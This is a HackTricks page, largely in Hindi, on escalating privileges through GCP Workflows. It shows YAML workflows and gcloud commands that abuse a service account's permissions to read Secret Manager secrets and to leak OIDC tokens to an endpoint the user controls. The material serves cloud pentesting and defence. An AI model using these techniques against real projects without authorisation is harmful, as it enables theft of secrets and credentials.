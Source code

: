 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

बुनियादी जानकारी:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

मेरी जानकारी के अनुसार, यह संभव नहीं है कि एक शेल प्राप्त किया जाए जिसमें उस मेटाडेटा एंडपॉइंट तक पहुंच हो जिसमें उस Workflow से जुड़े SA के क्रेडेंशियल्स हों। हालाँकि, Workflow के अंदर प्रदर्शन करने के लिए क्रियाएँ जोड़कर SA की अनुमतियों का दुरुपयोग करना संभव है।

कनेक्टर्स की दस्तावेज़ीकरण ढूंढना संभव है। उदाहरण के लिए, यह [**Secretmanager कनेक्टर का पृष्ठ**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)** है।** साइड बार में कई अन्य कनेक्टर्स मिल सकते हैं।

और यहाँ आप एक कनेक्टर का उदाहरण देख सकते हैं जो एक रहस्य प्रिंट करता है:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLI से अपडेट:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
यदि आपके पास वेब एक्सेस नहीं है, तो एक वर्कफ़्लो को ट्रिगर करना और उसकी कार्यान्वयन को देखना संभव है: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
आप पिछले निष्पादन के आउटपुट की जांच भी कर सकते हैं ताकि संवेदनशील जानकारी की तलाश की जा सके
{% endhint %}

ध्यान दें कि भले ही आपको `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` जैसी त्रुटि मिले क्योंकि आपके पास वह अनुमति नहीं है, कार्यप्रवाह उत्पन्न हो चुका है।

### OIDC टोकन लीक (और OAuth?)

[**दस्तावेज़ों के अनुसार**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) यह संभव है कि कार्यप्रवाह के चरणों का उपयोग किया जाए जो OAuth या OIDC टोकन के साथ HTTP अनुरोध भेजेंगे। हालाँकि, [Cloud Scheduler](gcp-cloudscheduler-privesc.md) के मामले की तरह, OAuth टोकन के साथ HTTP अनुरोध को होस्ट `.googleapis.com` पर होना चाहिए।

{% hint style="danger" %}
इसलिए, यह **संभव है कि OIDC टोकन को उपयोगकर्ता द्वारा नियंत्रित HTTP एंडपॉइंट को इंगित करके लीक किया जाए** लेकिन **OAuth** टोकन को लीक करने के लिए आपको उस सुरक्षा के लिए **बायपास** की आवश्यकता होगी। हालाँकि, आप अभी भी **SA की ओर से कार्य करने के लिए किसी भी GCP API से संपर्क कर सकते हैं** या तो कनेक्टर्स या OAuth टोकन के साथ HTTP अनुरोधों का उपयोग करके।
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

इस अनुमति के साथ `workflows.workflows.create` के बजाय, एक पहले से मौजूद वर्कफ़्लो को अपडेट करना और समान हमले करना संभव है।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
